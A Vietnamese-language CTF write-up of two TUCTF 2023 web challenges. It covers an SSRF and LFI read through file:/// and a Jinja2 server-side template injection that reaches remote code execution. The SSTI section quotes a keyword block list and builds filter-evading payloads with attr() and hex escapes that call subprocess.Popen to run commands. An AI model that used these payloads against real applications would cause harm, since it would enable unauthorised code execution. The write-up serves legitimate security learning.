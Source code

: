 ```yaml
---
title: Write-Up TUCTF 2023
date: 2023-12-3 7:55:00 +0700
categories: [CTF, TUCTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
pin: true
---
```


# PHP-Practise

vì bài này mình không kịp làm lại để lấy ảnh, nên mình sẽ dùng tạm những hình mình cap lại trong quá trình giải để giải thích.

- Về cơ bản thì đây chỉ là 1 web dùng để lấy dữ liệu, mình đã test qua và phát hiện được file:/// là bypass filter ssrf.
- mình dùng file:///var/www/html/display.php để lấy đc source code của file display , tuy nhiên cũng không khai thác được gì mấy, và mình cũng tìm được trang này bị LFI

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled.png">
- Dựa vào hint của bài thì mình tìm các thư mục có thể dùng để dấu đi tập tin bí mật như robots.txt, .htaccess

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 1.png">

- Mình tìm được 1 thư mục có vẻ như là chứa flag của bài này

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 3.png">

- Done, vì bài này mình không kịp làm lại để viết WU nên không thể viết chi tiết hơn được hic

# My First blog

- Bài này dẫn chúng ta đến 1 trang blog với 1 số chức năng như là tạo post, sửa post và xóa post, và sau khi test XXS không được thì mình nghĩ đến SSTI và test với chức năng tạo post và edit post như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 4.png">

- Tuy nhiên có vẻ như không hoạt động 😀

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 5.png">

- Sau đó mình test thêm Edit nhưng cũng không được, tuy nhiên khi mình dùng chức năng xóa thì đã trigger được lỗi SSTI.

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 6.png">

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 7.png">

- Voila!!, lúc này mình tiếp tục thử dùng `{ { ().class } }`  để xem thì phát hiện 1 số filter rất KHÓ CHỊU!!

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 8.png">

- Và như bạn thấy ở dưới là những kí tự đã bị filter. tức là khi nó xuất hiện những chữ trong dấu * thì sẽ không dùng được.
**[‘.*config.*’, ‘.*class.*’, ‘.*request.*’, ‘.*self.*’, ‘.*global.*’, ‘.*getitem.*’, ‘.*base.*’, ‘.*os.*’, ‘.*mro.*’, ‘.*import.*’, ‘.*builtins.*’, ‘.*popen.*’, ‘.*read.*’, ‘.*write.*’, ‘.*system.*’, ‘.*eval.*’, ‘.*exec.*’, ‘.*\\+.*’, ‘.*\\..*’, ‘.*\\[.*’, ‘.*\\].*’, ‘.*\\_.*’]**

Vì thế nên mình sẽ dùng hàm attr(), nó sẽ dùng để thay thế cho thằng class bên dưới

```python
().__class__
```

Tương đương với

```python
()|attr('__class__')
```

Như bạn có thể thấy **class** hiện nằm trong một chuỗi, vì vậy ta có thể bypass được filter của bài này bằng cách dùng acsii

```python
()|attr('\x5f\x5f\x63lass\x5f\x5f')
```

- **`'\x5f'`** là biểu diễn của ký tự **`_`** trong ASCII.
- **`'\x63'`** là biểu diễn của ký tự **`c`** trong ASCII.
- …. tương tự

Vì thế, chúng ta có thể viết như thế này 

text: `**()|attr('__class__')|attr('__base__')**`

nó sẽ tương tự như

text: `().**__class__**.**__base__**`

- Việc bây giờ của ta là sẽ test và sử dụng SSTI để RCE , mình sẽ sử dụng payload bên dưới, tuy nhiên ở đây chúng ta có 2 vấn đề.
  
```python
{ { ( ).__class__.__base__.__subclasses__()[<index for subprocess.Popen>]('w h o a m i',sh3ll=T4ue,stdout=-1).communicate( ) } } 
```

( bạn xóa những kí tự thừa đi nhé vì github mình up raw lên nó bị filter shell :)
1. Dấu [ ] bị filter
2. Ta không biết index cụ thể của **subprocess.Popen**


- Để giải quyết vấn đề 1 ta sử dụng **`.getitem()`** thay vì trực tiếp sử dụng dấu **`[]`** để truy cập phần tử của danh sách. Vậy nên câu lệnh trên sẽ thành

  
```python
{ { ( ).__class__.__base__.__subclasses__().__getitem__(<index for subprocess.Popen>)('w h o a m i',sh3ll=T4ue,stdout=-1).communicate( ) } } 
```

- Đối với vấn đề 2, sau 1 lúc search document thì mình biết được rằng Popen in **subclass**(). thường sử dụng payload sau `().**__class__**.**__base__**.**__subclasses__**()`

Vậy nên payload cuối cùng của ta sẽ là 
```python
{ { ( ).__class__.__base__.__subclasses__().__getitem__().* * __class__ * * . * * __base__ * * . * * __subclasses__ * * ()('w h o a m i',sh3ll=T4ue,stdout=-1).communicate()}} 
```
// bỏ khoảng trắng đi nhé
Tuy nhiên ta phải chuyển nó sang như thế này để bypass filter
```python
{ { ( )| attr ('\x5f\x5f\x63lass\x5f\x5f')| attr('\x5f\x5f\x62ase\x5f\x5f')| attr('\x5f\x5fsub\x63lasses\x5f\x5f')( ) } }
```
- Tuy nhiên ta lại nhận được kết quả như hình

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 2.png">

- Đáng lí ra thì theo payload trên, ta sẽ phải nhận được thông tin về subclass, ví dụ như là

```python
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>...
```

- Sau 1 lúc mò mẫm thì có vẻ như là những kí tự nằm trong <> sẽ bị render thành rỗng … như ảnh, vì vậy mình sẽ add thêm **.replace(’<’) thành ‘’**
```python
{ { ( )|attr ('\x5f\x5f\x63lass\x5f\x5f')| attr('\x5f\x5f\x62ase\x5f\x5f')| attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5frepr\x5f\x5f')()|attr('replace')('<','') } }
```
- P/S: Thật ra cũng không cần thiết vì thật ra thằng trình duyệt nó chỉ cố render bọn class thành html elements, ta chỉ cần view-source là có thể thấy được như hình dưới hahaha

<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 9.png">

- Lúc này ta viết script để tìm được index của nó là 372, vậy payload cuối cùng của ta sẽ là
```python
{ { ().__class__.__base__.__subclasses__().__getitem__(372)('whoami',sh3ll=T4ue,stdout=-1).communicate( ) } }`
```
- Để tránh bị filter
```python
{ { ()|attr('\x5f\x5f\x63lass\x5f\x5f')|attr('\x5f\x5f\x62ase\x5f\x5f')|attr('\x5f\x5fsub\x63lasses\x5f\x5f')()|attr('\x5f\x5f\x67etitem\x5f\x5f')(372)('whoami',sh3ll=T4ue,stdout=-1)|attr('communicate')( ) } }
```
<img src="/assets/writeup/cookie/TUCTF - 2023/Untitled 10.png">

- Bạn chỉ cần chạy 1 lệnh RCE bất kì là có thể xuất hiện flag
